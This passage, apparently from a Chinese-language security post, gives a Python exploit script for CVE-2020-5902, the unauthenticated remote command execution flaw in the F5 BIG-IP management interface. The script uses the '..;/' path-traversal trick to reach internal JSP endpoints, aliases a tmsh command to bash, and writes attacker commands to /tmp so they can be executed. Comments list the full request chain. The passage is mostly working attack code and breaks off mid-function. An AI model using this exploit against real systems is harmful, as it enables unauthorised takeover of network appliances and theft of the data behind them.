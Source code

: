github：https://github.com/Critical-Start/Team-Ares/tree/master/CVE-2020-5902

**通过bash执行命令的 payload：**

通过 alias = bash 去绕过无法执行 shell 的限制。payload如下

```python
#coding:utf-8
import requests
import json
import requests.packages.urllib3
requests.packages.urllib3.disable_warnings()
import uuid
import sys

# tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
# fileSave.jsp?fileName=/tmp/cmd&content=id
# tmshCmd.jsp?command=list+/tmp/cmd
# tmshCmd.jsp?command=delete+cli+alias+private+list

banner = r'''
 _______  _______    ______  _________ _______   _________ _______    _______  _______  _______
(  ____ \(  ____ \  (  ___ \ \__   __/(  ____ \  \__   __/(  ____ )  (  ____ )(  ____ \(  ____ \
| (    \/| (    \/  | (   ) )   ) (   | (    \/     ) (   | (    )|  | (    )|| (    \/| (    \/
| (__    | (____    | (__/ /    | |   | |           | |   | (____)|  | (____)|| |      | (__
|  __)   (_____ \   |  __ (     | |   | | ____      | |   |  _____)  |     __)| |      |  __)
| (            ) )  | (  \ \    | |   | | \_  )     | |   | (        | (\ (   | |      | (
| )      /\____) )  | )___) )___) (___| (___) |  ___) (___| )        | ) \ \__| (____/\| (____/\
|/       \______/   |/ \___/ \_______/(_______)  \_______/|/         |/   \__/(_______/(_______/
                                                                                                
                        CVE-2020-5902 UnAuth RCE Vuln
                            Python By Jas502n
From: https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
____________________________________________________________________________________________________________________________________________________
'''

def tmshCmd_exit(url,file,cmd):
    tmshCmd_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash"
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(tmshCmd_url,verify=False,allow_redirects=False)
    # r = requests.get(tmshCmd_url,verify=False,allow_redirects=False,proxies=proxies)

    response_str = json.dumps(r.headers.__dict__['_store'])
    # print type(response_str)
    # print response_str
    if r.status_code == 200 and 'tmui' in response_str:
        # print tmshCmd_url
        print "[+] tmshCmd.jsp Exit!"
        print "[+] create cli alias private list command bash \n"
        # cmd = 'whoami'
        upload_exit(url,file,cmd)


    else:
        print "[+] tmshCmd.jsp No Exit!\n"

def upload_exit(url,file,cmd):
    fileSave_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/%s&content="%file + cmd
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(fileSave_url,verify=False,allow_redirects=False)
    # r = requests.get(fileSave_url,verify=False,allow_redirects=False,proxies=proxies)
```